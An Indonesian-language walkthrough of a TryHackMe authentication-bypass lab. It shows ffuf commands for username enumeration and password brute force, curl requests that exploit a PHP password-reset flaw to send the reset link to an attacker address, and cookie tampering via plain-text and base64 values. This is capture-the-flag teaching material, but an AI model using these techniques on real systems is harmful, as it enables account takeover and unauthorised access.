







# Authentication Bypass

## Setup
Room ini dikerjakan di OS Kali Linux
- Mulai THM Machine

- Konek ke VPN THM
- Install ffuf dengan `sudo apt install ffuf` atau dengan men-clone repo-nya [disini](https://github.com/ffuf/ffuf)

## Username Enumeration
Latihan yang berguna saat mencoba menemukan kerentanan autentikasi adalah mendapatkan daftar username yang valid, yang akan kita gunakan nanti dalam task lain.

Pesan kesalahan situs web adalah sumber yang bagus untuk mengumpulkan informasi ini guna mendapatkan daftar username yang valid. Terdapat formulir register yang ada di situs web Acme IT Support (http://MACHINE_IP/customers/signup).


Jika kita mencoba memasukkan username admin dan mengisi bidang formulir lainnya dengan informasi palsu, kita akan melihat error `An account with this username already exists`. Kita dapat menggunakan keberadaan pesan kesalahan ini untuk menghasilkan daftar username yang valid yang sudah terdaftar di sistem dengan menggunakan alat ffuf di bawah ini. Alat ffuf menggunakan daftar username yang umum digunakan untuk memeriksa kecocokan.

`ffuf -w /path/to/wordlist/username -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"`

- `-w` adalah untuk mengambil file berisi wordlist username untuk di cek
- `-d` adalah data yang akan dikirimkan ke url. Kata `FUZZ` nantinya akan di ganti oleh tiap kata dari wordlist
- `-H` adalah untuk mengirimkan header
- `-u` adalah url request
- `-mr` text dalam page yang akan menentukan apakah username sudah ada/belum



Untuk wordlist username, dapat ditemukan [disini](https://github.com/jeanphorn/wordlist). <br>

Simpan daftar username tersebut kedalam suatu file txt untuk digunakan selanjutnya.

## Brute Force

Serangan brute force adalah proses otomatis yang mencoba daftar password yang umum digunakan terhadap satu username atau daftar nama pengguna.

Menggunakan daftar username yang kita buat pada task sebelumnya, sekarang kita dapat menggunakan ini untuk mencoba serangan brute force pada halaman login (http://MACHINE_IP/customers/login).

`ffuf -w /path/to/list/valid/username.txt:W1,/path/to/wordlist/password.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

- `W1` dan `W2` dalam `-w` adalah untuk menyatakan dua wordlist yang akan digunakan
- `-fc` adalah untuk mengecek HTTP status code selain dari 200



Untuk wordlist password, dapat ditemukan [disini](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt).

## Logic Flaw

### What is a Logic Flaw
Terkadang proses otentikasi mengandung kelemahan logika. Cacat logika adalah ketika jalur logis khas suatu aplikasi dilewati, dielakkan, atau dimanipulasi oleh peretas. 


### Logic Flaw Practical
Kita akan memeriksa fungsi Reset Password dari situs web Acme IT Support (http://MACHINE_IP/customers/reset). Disana, akan ditemukan form yang meminta email aku yang ingin di reset. Jika email yang dimasukkan tidak valid, akan menerima pesan kesalahan "Akun tidak ditemukan dari alamat email yang diberikan". <br>
Kita akan menggunakan alamat email robert@acmeitsupport.thm yang diterima. Selanjutnya, akan diminta memasukkan nama username yang terkait dengan alamat email login ini. Jika kami memasukkan robert sebagai nama pengguna dan menekan tombol Check Username, kita akan melihat pesan konfirmasi bahwa email pengaturan ulang kata sandi akan dikirim ke robert@acmeitsupport.thm.


Pada tahap ini, ktia mungkin bertanya-tanya apa kerentanan dalam aplikasi ini karena kita harus mengetahui email dan nama pengguna dan kemudian tautan kata sandi dikirim ke alamat email pemilik akun.

Pada langkah kedua dari proses reset email, nama pengguna dikirimkan dalam bidang POST ke server web, dan alamat email dikirim dalam permintaan string kueri sebagai bidang GET.

`curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`



Dalam aplikasi, akun pengguna diambil menggunakan string kueri, tetapi kemudian, dalam logika aplikasi, email pengaturan ulang kata sandi dikirim menggunakan data yang ditemukan dalam variabel PHP `$_REQUEST`.

Variabel PHP `$_REQUEST` adalah array yang berisi data yang diterima dari string kueri dan data POST. Jika nama kunci yang sama digunakan untuk string kueri dan data POST, logika aplikasi untuk variabel ini lebih menyukai data POST daripada string kueri, jadi jika kita menambahkan parameter lain ke formulir POST, kita dapat mengontrol di mana reset kata sandi email akan terkirim.

`curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`



Untuk langkah selanjutnya, kita harus membuat akun di bagian Acme IT support customer section, hal itu akan memberi kita alamat email unik yang dapat digunakan untuk membuat support ticket. Alamat email dalam format {username}@customer.acmeitsupport.thm

Sekarang jalankan kembali Curl Request 2 tetapi dengan @acmeitsupport.thm kita di bidang email, kita akan memiliki tiket yang dibuat di akun Anda yang berisi tautan untuk memasukkan kita sebagai Robert. Menggunakan akun Robert, kita dapat melihat support ticket mereka dan mendapatkan flag.

`curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`




## Cookie Tampering
Memeriksa dan mengedit cookie yang disetel oleh server web selama sesi online Anda dapat memiliki beberapa hasil, seperti akses yang tidak diautentikasi, akses ke akun pengguna lain, atau hak istimewa yang lebih tinggi.

### Plain Text
Isi beberapa cookie dapat berupa teks biasa, dan jelas fungsinya. Misalnya, jika ini adalah cookie yang disetel setelah login berhasil:
```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
Kita melihat satu cookie (log_in), yang muncul untuk mengontrol apakah pengguna sedang login atau tidak, dan cookie lainnya (admin), yang mengontrol apakah pengunjung memiliki hak istimewa admin. Dengan menggunakan logika ini, jika kita mengubah konten cookie dan membuat request, kita dapat mengubah hak istimewa kita.

Pertama, kita akan mulai hanya dengan me-request halaman target

`curl http://MACHINE_IP/cookie-test`

Kita dapat melihat bahwa kita mendapatkan respon: **Not Logged In**

Sekarang kita akan mengirim request lain dengan cookie logged_in disetel ke true dan cookie admin disetel ke false

`curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`

Kita akan mendapatkan respon: **Logged In As A User**

Terakhir, kita akan mengirimkan request terakhir yang mengatur cookie logged_in dan admin menjadi true

`curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`

Kita akan mendapatkan respon: **Logged In As An Admin** beserta flag

### Hashing
Terkadang cookie dapat terlihat seperti rangkaian karakter acak yang panjang; ini disebut hash yang merupakan representasi irreversibel dari teks asli. Berikut adalah contoh cookie yang telah di hasing:

| Original String | Hash Method | Output |
| --------------- | ----------- | ------ |
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b |
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b |
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab |

Kita dapat melihat dari tabel di atas bahwa output hash dari string input yang sama dapat berbeda secara signifikan tergantung pada metode hash yang digunakan. Meskipun hash tidak dapat diubah, output yang sama dihasilkan setiap saat, yang berguna bagi kita karena layanan seperti [https://crackstation.net/](https://crackstation.net/) menyimpan database miliaran hash dan string aslinya.

### Encoding
Encoding mirip dengan hashing karena menciptakan apa yang tampaknya menjadi string teks acak, tetapi pada kenyataannya, penyandian dapat dibalik.  Encoding memungkinkan kita untuk mengubah data biner menjadi teks yang dapat dibaca manusia yang dapat dengan mudah dan aman ditransmisikan melalui media yang hanya mendukung karakter ASCII teks biasa.

Jenis encoding yang umum adalah base32 yang mengubah data biner menjadi karakter A-Z dan 2-7, dan base64 yang mengonversi menggunakan karakter a-z, A-Z, 0-9,+, / dan tanda sama dengan untuk padding.

Ambil data di bawah ini sebagai contoh yang ditetapkan oleh server web saat masuk
```
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```
String base64 yang di-decode ini memiliki nilai {"id":1,"admin": false}, kemudian kita dapat meng-encode kembali ke base64 yang disandikan lagi tetapi sebaliknya menyetel nilai admin ke true, yang sekarang memberi kita akses admin.